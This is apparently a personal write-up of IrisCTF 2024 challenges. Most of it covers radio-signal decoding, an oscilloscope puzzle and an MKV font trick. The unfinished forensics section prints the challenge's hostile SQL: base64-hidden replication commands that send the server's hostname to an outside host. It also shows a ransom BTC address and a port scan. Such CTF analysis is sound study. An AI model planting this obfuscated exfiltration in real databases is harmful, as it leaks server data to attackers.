

A very nice, high quality CTF organized by IrisSec. It had several good quality Signals/RF related challenges, which is rare in the CTFs. I used the little time I had to play in this CTF focusing on the RF challenges. 
<!--more-->

### Radio Frequency 
#### Radio Hijacking


We are given a radio broadcast as an mp3 file and a RF raw IQ signal file.  Just opening the raw file in `gqrx` with the following settings and playing the signal shows the flag in the waterfall view.

`file=~/ctf/2024/irisctf/rf/radio-hijacking/rf_capture.raw,freq=920e6,rate=2e6,repeat=true,throttle=true`


#### Spicy Sines


For this challenge, we are given a very wide image (`100 x 25000`) with what seems to be Amplitude Shift Keying wave form. In this scheme, the amplitude of a carrier signal is changed to represent a digital signal. Since the amplitude goes to zero when conveying the `zero`, this represents the simplest form of ASK called On-Off keying (OOK).

During the CTF, I painstakingly transcribed the signal by hand. However, I wanted to automate the transcribing.  The approach used for transcribing the signal is to read the pixel value (specifically for the Blue channel) of the image on row 19. This is represented by the gray line is the small section of the signal image shown below. This allows us to read the pixel values and also count the apex of the sine waves (which gives us and indication of the number of consecutive `1` signals) and to capture the distance between two apexes (to indicate the number of consecutive `0` signals). 



Once we have the digital stream of the information from the signal image, we then need to decode the information. The encoding scheme is the Manchester encoding scheme which relies on the transition between states and not on the absolute value of the two states. From Wikipedia : `It is a self-clocking signal with no DC component. Consequently, electrical connections using a Manchester code are easily galvanically isolated.`

The complete solution below reads and interprets the image to extract the binary stream, and uses Manchester coding scheme to decode it into a flag.
```python 
#!/usr/bin/python3
# -*- coding: utf-8 -*-

import numpy as np
from PIL import Image
from Crypto.Util.number import long_to_bytes

# from: https://github.com/ian-llewellyn/manchester-coding
class Manchester(object):
    """
    G. E. Thomas: 0 = 01, 1 = 10
    ISO 802.4: 0 = 10, 1 = 01
    """
    _bit_symbol_map = {
        # bit: symbol
        '0': '01',
        '1': '10',
        'invert': {
            # bit: symbol
            '0': '10',
            '1': '01'},
        'differential': {
            # (init_level, bit): symbol
            ('1', '0'): '01',
            ('0', '0'): '10',
            ('0', '1'): '11',
            ('1', '1'): '00'
        }
    }

    def __init__(self, differential=False, invert=False):
        self._invert = invert
        self._differential = differential
        self._init_level = '0'

    def invert(self):
        self._invert = not self._invert

    def differential(self):
        self._differential = not self._differential

    def encode(self, bits, init_level=None):
        if init_level:
            self._init_level = init_level

        symbols = ''
        for bit in bits:
            # Differential Manchester Coding
            if self._differential:
                symbols += self._bit_symbol_map['differential'][(self._init_level, bit)]
                self._init_level = symbols[-1]
                continue

            # IEEE 802.4 (Inverted Manchester Coding)
            if self._invert:
                symbols += self._bit_symbol_map['invert'][bit]
                continue

            # Manchester Coding
            symbols += self._bit_symbol_map[bit]

        return symbols

    def decode(self, symbols):
        bits = ''
        while len(symbols):
            symbol = symbols[0:2]
            symbols = symbols[2:]

            if self._differential:
                for ib, s in self._bit_symbol_map['differential'].items():
                    if symbol == s:
                        bits += ib[1]
                continue

            if self._invert:
                for b, s in self._bit_symbol_map['invert'].items():
                    if symbol == s:
                        bits += b
                continue

            for b, s in self._bit_symbol_map.items():
                if symbol == s:
                    bits += b

        return bits

# Helper function to interpret the information gathered
#   ^ ^ ^ ^ __      = 110   (four waves + standard space)
#   ^ ^ ^ ^ ____    = 1100  (four waves + long space) ... etc
#   ^ ^ __          = 10
#   ^ ^ ____        = 100
def interpret_waves(wave_counter, zerocount):
    segment = ''
    if (wave_counter == 4):
        segment += '11'
    elif (wave_counter == 2):
        segment += '1'
    segment += '0'*zerocount
    return segment

def main():    
    offset = 400 - 35       # start reading the message from the 365th column
    row_num = 19            # Row 19 has the apex of the sine waveforms
    SPACE_00 = 60           # distance for '00' = 2.5 cycles @ 24 pixels per cycle
    SPACE_0  = 36           # distance for '0'  - 1.5 cycles @ 24 pixels per cycle
    SPACE_WAVE = 12         # space between two wave peaks
    PEAK_WAVE  = 3          # consecutive pixels at the top of the wave
    ALLOWANCE = 5           # allowance for error/noise

    # Open image with Pillow
    image = Image.open('spicy-sines.png')
    width, height = image.size
    print(f"Image read : {height=}, {width=}")

    # Convert Pillow image to NumPy array
    img_array = np.array(image, dtype=np.uint8)

    out         = ''        # Accumulation of the interpreted binary string
    prev_val    = 0         # Value of the previous pixel        
    current_val = 0         # current value of the pixel. White = 0, Blue = 1
    d           = 0         # length of consecutive pixels of the same color
    wave_counter = 0        # Count the number of wave peaks encountered so far
    for j in range(offset, width - 30):         # stop before the right margin
        pixel = img_array[row_num,j:j+1,2]    # take only the blue color 
        current_val = 0 if pixel[0] >= 253 else 1
        if (prev_val != current_val):
            if (prev_val == 0):
                if d > SPACE_00 - ALLOWANCE and d < SPACE_00 + ALLOWANCE : 
                    out += interpret_waves(wave_counter, 2)
                    wave_counter = 0
                elif d > SPACE_0 - ALLOWANCE and d < SPACE_0 + ALLOWANCE : 
                    out+= interpret_waves(wave_counter, 1)
                    wave_counter = 0
            elif d > PEAK_WAVE - ALLOWANCE and d < PEAK_WAVE + ALLOWANCE : 
                wave_counter += 1
            d = 0
        else:
            d += 1
        prev_val = current_val

    if (wave_counter > 0):
        out += '1'* (wave_counter //2)

    out = out.lstrip('0')

    M = Manchester(differential=False, invert=True)
    # decode using Manchester ISO 802.4, convert to a long and then to bytes
    print(long_to_bytes(int(M.decode(out), 2)))     # b'irisctf{c0ngrats_y0uv3_d3feat3d_ook_th3_m0st_b4sic_f0rm_of_ask}'

if __name__ == "__main__":
	main()
```


### Miscellaneous
#### Sir Scope


In this challenge, we are given a set of images that looks like captures of an digital scope. 

```bash
% tar -tvzf sir-scope.tar.gz 
drwxr-xr-x root/root         0 2024-01-01 00:00 sir-scope/
-rwxr-xr-x root/root     38765 2024-01-01 00:00 sir-scope/capture_0.png
-rwxr-xr-x root/root     40015 2024-01-01 00:00 sir-scope/capture_1.png
-rwxr-xr-x root/root     39279 2024-01-01 00:00 sir-scope/capture_2.png
-rwxr-xr-x root/root     34285 2024-01-01 00:00 sir-scope/capture_3.png
-rwxr-xr-x root/root     26678 2024-01-01 00:00 sir-scope/zoomed_out.png
```

A small portion of the first file is shown and annotated here. 


There are three main signals depicted in the captures. From top to bottom, they are presumably,
1. Data signal (Yellow) - this represents the value of the digital signal (`0` or `1`)
1. Reset (Magenta) - this signal represents the reset after signalling 8 bits, indicating the break between each character
1. Clock - this indicates the bit rate of the signal. 

The approach seems to be to read the `data` signal whenever the `clock` is held high. The picture above shows that the first octet read is `10010110`, which seems to be representing the character `i` of `irisctf{}`, but with the least significant bit transmitted first. Taking this approach, we can decipher the rest of the message, which gives us the flag. 


### Forensics
#### Not Just Media


For this challenge, we are given an video in the Matroska container (`.mkv`). This container format allows different related media files to be packaged together.  Playing the video shows Michael - the mascot of IrisCTF along with a subtitle in chinese. 


```bash 
% ffmpeg -i chal.mkv 
Input #0, matroska,webm, from 'chal.mkv':
...
  Stream #0:0: Video: h264 (High), yuvj420p(pc, bt470bg/unknown/unknown, progressive), 1280x720 [SAR 1:1 DAR 16:9], 60 fps, 60 tbr, 1k tbn (default)
...
  Stream #0:1: Audio: aac (LC), 44100 Hz, stereo, fltp (default)
...
  Stream #0:2: Subtitle: ass (default) (forced)         <----- subtitle is forced on
...
  Stream #0:3: Attachment: none
    Metadata:
      filename        : NotoSansTC-Regular_0.ttf        <----- Default forced font
      mimetype        : font/ttf
      title           : Imported font from Untitled.ass
  Stream #0:4: Attachment: none
    Metadata:
      filename        : FakeFont_0.ttf                  <------  Interesting font embedded
      mimetype        : font/ttf
      title           : Imported font from Untitled.ass
  Stream #0:5: Attachment: none
    Metadata:
      filename        : NotoSans-Regular_0.ttf
      mimetype        : font/ttf
      title           : Imported font from Untitled.ass
```


I remembered that `mpv` the command-line media player has tons of options. Reading through it's [documentation](https://mpv.io/manual/master/#video-filters), I found the following option to override the subtitle style and switch the font. Switching the subtitle to the embedded `FakeFont` gives us the flag on playback. 

```bash
# Play the media by overriding the subtitle style and switching to the FakeFont that was packaged 
# within the MKV container to get the flag.
% mpv --sub-ass-style-overrides=FontName=FakeFont chal.mkv 
```


#### BuzzBuzz (todo)

```bash
% tar -tvzf buzzbuzz.tar.gz 
drwxr-xr-x  0 root   root        0 Dec 31 19:00 buzzbuzz/
-rw-r--r--  0 root   root  5936570 Dec 31 19:00 buzzbuzz/dump.zip
-rw-r--r--  0 root   root       93 Dec 31 19:00 buzzbuzz/dump_password.txt
-rw-r--r--  0 root   root   262639 Dec 31 19:00 buzzbuzz/notice.pdf

% cat dump_password.txt 
dump.zip password is the BTC address to pay. Good luck :)
1ATxjNNUgMhZ54Ew9FHUiuWHmXaceKfNuj
```


```sql
% grep -v ',' dump.sql
....
```

```sql
-
-- Dumping data for table `users`
--

LOCK TABLES `users` WRITE;
/*!40000 ALTER TABLE `users` DISABLE KEYS */;
SET @b = 'U0VUIEBiYiA9IENPTkNBVCgiQ0hBTkdFIE1BU1RFUiBUTyBNQVNURVJfUEFTU1dPUkQ9J2J1c3liZWUxMjMnLCBNQVNURVJfUkVUUllfQ09VTlQ9MSwgTUFTVEVSX1BPUlQ9MzMwNiwgTUFTVEVSX0hPU1Q9J2QyNWQtNDRmZi1iM2FhLTFiZDU3MzMzNWNiZi5hZXlpZTRsZWkxYWlkaWU3LmluLXNjb3BlLmlyaXNjLnRmJywgTUFTVEVSX1VTRVI9J2RidXNlciIsIEBAbGNfdGltZV9uYW1lcywgQEBob3N0bmFtZSwgIic7Iik7';
SET @s2 = FROM_BASE64(@b);
PREPARE stmt1 FROM @s2;
EXECUTE stmt1;
PREPARE stmt2 FROM @bb;
EXECUTE stmt2;
START REPLICA;
....
```

```bash
% echo 'U0VUIEBiYiA9IENPTkNBVCgiQ0hBTkdFIE1BU1RFUiBUTyBNQVNURVJfUEFTU1dPUkQ9J2J1c3liZWUxMjMnLCBNQVNURVJfUkVUUllfQ09VTlQ9MSwgTUFTVEVSX1BPUlQ9MzMwNiwgTUFTVEVSX0hPU1Q9J2QyNWQtNDRmZi1iM2FhLTFiZDU3MzMzNWNiZi5hZXlpZTRsZWkxYWlkaWU3LmluLXNjb3BlLmlyaXNjLnRmJywgTUFTVEVSX1VTRVI9J2RidXNlciIsIEBAbGNfdGltZV9uYW1lcywgQEBob3N0bmFtZSwgIic7Iik7' | base64 -d 
SET @bb = CONCAT("CHANGE MASTER TO MASTER_PASSWORD='busybee123', MASTER_RETRY_COUNT=1, MASTER_PORT=3306, MASTER_HOST='d25d-44ff-b3aa-1bd573335cbf.aeyie4lei1aidie7.in-scope.irisc.tf', MASTER_USER='dbuser", @@lc_time_names, @@hostname, "';");%

% nslookup d25d-44ff-b3aa-1bd573335cbf.aeyie4lei1aidie7.in-scope.irisc.tf
Server:		192.168.1.1
Address:	192.168.1.1#53

Non-authoritative answer:
Name:	d25d-44ff-b3aa-1bd573335cbf.aeyie4lei1aidie7.in-scope.irisc.tf
Address: 1.2.3.4

 % nmap -Pn aeyie4lei1aidie7.in-scope.irisc.tf
Starting Nmap 7.94 ( https://nmap.org ) at 2024-01-11 21:27 EST
Nmap scan report for aeyie4lei1aidie7.in-scope.irisc.tf (35.228.27.236)
Host is up (0.13s latency).
rDNS record for 35.228.27.236: 236.27.228.35.bc.googleusercontent.com
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
53/tcp   open  domain
8080/tcp open  http-proxy                   <<<<<<   
```


```html 
<!DOCTYPE html>
<html>
<head>
	<title>Billy Bad&#39;s HoneyToken Tool</title>
	<link rel="stylesheet" type="text/css" href="/static/css/style.css">
	<link rel="shortcut icon" type="image/png" href="/static/png/favicon.png">
</head>
<body>
	<h1>Billy Bad's HoneyToken Tool</h1>
	<button onclick="make()">Create a HoneyToken.</button>

	<script src="https://cdn.jsdelivr.net/npm/jquery@3.7.1/dist/jquery.min.js"></script>
	<script>
		function make() {
			alert("This feature has been temporarily disabled.");
//			$.ajax(
//			{
//				type: "POST",
//				url: "/make",
//				success: function(data)
//				{
//					let trigger = data + ".aeYie4lei1aidie7.in-scope.irisc.tf";
//					let control = "http://aeYie4lei1aidie7.in-scope.irisc.tf/manage/" + data;
//					alert("Done. Requests to " + trigger + " can be tracked at " + control + ".");
//				}
//			})
		}
	</script>
</body>
</html>
```


#### Birdie (todo)
LoRa, SF=8


### Resources, Writeups
* https://justinapplegate.me/2024/irisctf-sharingiscaring/
* https://docs.google.com/document/d/1jlPOFjZHWtFmuNNnvWhujF9oLjEl3B44i_UhuOHUpwE/edit#heading=h.780s3r1ysbk2
* https://shawnd.xyz/blog/2023-01-26/IrisCTF-2023-Select-Forensics-RF-and-Networking-Writeups
* https://irissec.xyz/
### Challenges

|Category|Challenge|Description
|----|----|----


